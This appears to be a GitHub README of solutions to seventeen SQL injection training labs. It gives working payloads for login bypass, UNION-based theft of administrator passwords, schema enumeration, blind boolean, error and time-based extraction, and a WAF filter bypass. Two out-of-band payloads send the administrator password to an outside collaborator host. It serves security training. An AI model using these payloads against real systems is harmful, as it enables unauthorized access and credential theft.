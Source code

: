 <div align='center'>

# **SQL Injection**

</div>

## **Retrieving hidden data**

### **Lab 1:** SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Solution:** Set the category parameter to ` ` or 1=1 -- `. 

**Solution script:** [Lab1.py](./lab1.py)

## **Subverting application logic**

### **Lab 2:** SQL injection vulnerability allowing login bypass

**Solution:** In the login page, give `username = administrator' --`. 

**Solution script:** [Lab2.py](./lab2.py)

## **SQL injection UNION attacks**

### **Lab 3:** SQL injection UNION attack, determining the number of columns returned by the query

**Solution:** Set the category parameter to ` ' UNION Select null,null,null -- `. 

**Solution script:** [UNIONLab1.py](./UNIONLab1.py)

### **Lab 4:** SQL injection UNION attack, finding a column containing text

**Solution:** Set the category parameter to ` ' UNION Select null,null,'target string' -- `. 

**Solution script:** [UNIONLab2.py](./UNIONLab2.py). In the script, I have tried all possible combination of (null, null, target string) until the lab is solved.

### **Lab 5:** SQL injection UNION attack, retrieving data from other tables

**Solution:** Set the category parameter to ` ' UNION Select username,password from users where username = 'administrator' -- `. You will get the password of user 'administrator'. Finally, login as administrator to solve the lab. 

**Solution script:** [UNIONLab3.py](./UNIONLab3.py)

### **Lab 6:** SQL injection UNION attack, retrieving multiple values in a single column

**Solution:** Set the category parameter to ` ' UNION Select null, username || '~' || password from users where username = 'administrator' -- `. You will get the password of user 'administrator'. Finally, login as administrator to solve the lab. 

**Solution script:** [UNIONLab4.py](./UNIONLab4.py)

## **Examining the database**

### **Lab 7:** SQL injection attack, querying the database type and version on Oracle

**Solution:** Set the category parameter to ` ' UNION Select null,banner v$version where banner like 'Oracle%' -- `.

**Solution script:** [ExaminingLab1.py](./ExaminingLab1.py)

### **Lab 8:** SQL injection attack, querying the database type and version on MySQL and Microsoft

**Solution:** Set the category parameter to ` ' UNION Select @@version,null # `.

**Solution script:** [ExaminingLab2.py](./ExaminingLab2.py)

### **Lab 9:** SQL injection attack, listing the database contents on non-Oracle databases

**Solution:** Firstly, set the category parameter to ` ' UNION Select table_name,null from information_schema.tables where table_name like 'users_%'-- - ` to get the table name. Then, set the category parameter to ` ' UNION Select column_name,null from information_schema.columns where table_name = '(your table_name)' -- - ` to get all columns from that table. When you have the table with all columns, set the category parameter to ` ' UNION Select (your username columns),(your password column) from (your table_name) where (your username columns) = 'administrator' -- - ` to get the credential of the administrator.

**Solution script:** [ExaminingLab3.py](./ExaminingLab3.py)

### **Lab 10:** SQL injection attack, listing the database contents on Oracle

**Solution:** Firstly, set the category parameter to ` ' UNION Select table_name,null from all_tables where table_name like 'USERS_%'-- - ` to get the table name. Then, set the category parameter to ` ' UNION Select column_name,null from all_tab_columns where table_name = '(your table_name)' -- - ` to get all columns from that table. When you have the table with all columns, set the category parameter to ` ' UNION Select (your username columns),(your password column) from (your table_name) where (your username columns) = 'administrator' -- - ` to get the credential of the administrator.

**Solution script:** [ExaminingLab4.py](./ExaminingLab4.py)

## **Blind SQL Injection**

### **Lab 11:** Blind SQL injection with conditional responses

**Solution:** Modify the TrackingId cookie. Using brute force to get the length of the password by changing TrackingId to: 
```python
"Trackingid' AND (SELECT LENGTH(password) FROM users where username = 'administrator')='{}' -- -".format(password_len)
```
When password_len = 20, the message 'Welcome back' appear in the respond, so the length of the password is 20. Then, retrieve the password by changing TrackingId to:
```python
"Trackingid' AND (SELECT SUBSTR(password, {}, 1) FROM users where username = 'administrator')='{}' -- -".format(len(password) + 1, char)
```
char is chosen from the charset which contain lowercase letter and number. 

**Solution script:** [BlindLab1.py](./BlindLab1.py)

### **Lab 12:** Blind SQL injection with conditional errors

**Solution:** Similar to Lab 11, however, we rely on whether the query trigger an error or not. The query we use is:
```python
"Trackingid'||(SELECT case when (LENGTH(password)={}) then (1/0) else null end from users where username='administrator')||'".format(password_len)
```
```python
"Trackingid' ||(SELECT case when (SUBSTR(password,{},1)='{}') then (1/0) else null end from users where username='administrator')||'".format(len(password) + 1, char)
```

**Solution script:** [BlindLab2.py](./BlindLab2.py)

### **Lab 13:** Blind SQL injection with conditional errors

**Solution:** Change the trackingId of the cookies to `Trackingid || pg_sleep(10) -- -`.

 **Solution script:** [BlindLab3.py](./BlindLab3.py)

### **Lab 14:** Blind SQL injection with time delays and information retrieval

**Solution:** Similar to Lab 12, however, we rely on the time server take to respond . The query we use is:
```python
"Trackingid'||(SELECT case when (LENGTH(password)={}) then (pg_sleep(10)) else (pg_sleep(0)) end from users where username='administrator')||'".format(password_len)
```
```python
"Trackingid' ||(SELECT case when (SUBSTR(password,{},1)='{}') then (pg_sleep(10)) else (pg_sleep(0)) end from users where username='administrator')||'".format(len(password) + 1, char)
```

**Solution script:** [BlindLab4.py](./BlindLab4.py)

### **Lab 15:** Blind SQL injection with out-of-band interaction

**Solution:** Change the trackingId of the cookies to:
```python
'''Trackingid' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "{}"> %remote;]>'),'/l') FROM dual-- -'''.format(burp_client)
```
Then URLEncoded them.

**Solution script:** [BlindLab5.py](./BlindLab5.py)

### **Lab 16:** Blind SQL injection with out-of-band data exfiltration

**Solution:** Change the trackingId of the cookies to:
```python
'''Trackingid' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "'||(Select password from users where username = 'administrator')||'.{}"> %remote;]>'),'/l') FROM dual-- -'''.format(burp_client)
```
URLEncode them, then go to the Collaborator tab and get the password

**Solution script:** [BlindLab6.py](./BlindLab6.py)

## **SQL injection in different contexts**

### **Lab 17:** SQL injection with filter bypass via XML encoding

**Solution:** In the post request to endpoint /product/stock, use this xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>2 union select username || '~' || password from users where username = 'administrator'</storeId>
</stockCheck>
```
Then use html_encode to bypass the WAF
```python
def html_encode(string):
    return ''.join(['&#{0};'.format(ord(char)) for char in string])
```
You will get the password of the administrator user.

**Solution script:** [XMLLab.py](./XMLLab.py)